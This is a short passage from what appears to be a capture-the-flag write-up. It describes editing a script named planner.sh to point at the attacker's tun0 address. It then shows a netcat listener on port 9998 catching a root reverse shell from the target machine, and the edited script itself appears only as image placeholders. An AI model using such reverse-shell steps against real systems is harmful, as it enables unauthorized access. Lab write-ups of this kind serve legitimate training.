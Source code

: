 <figure><img src="../../.gitbook/assets/9 (23).png" alt=""><figcaption></figcaption></figure>

* The IP address is our `tun0` address.&#x20;

<figure><img src="../../.gitbook/assets/10 (18).png" alt=""><figcaption></figcaption></figure>

* After saving the changes, we can listen on port `9998` and run the `planner.sh` file.

```
$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.244.57] 43162
sh: 0: can't access tty; job control turned off
#
```
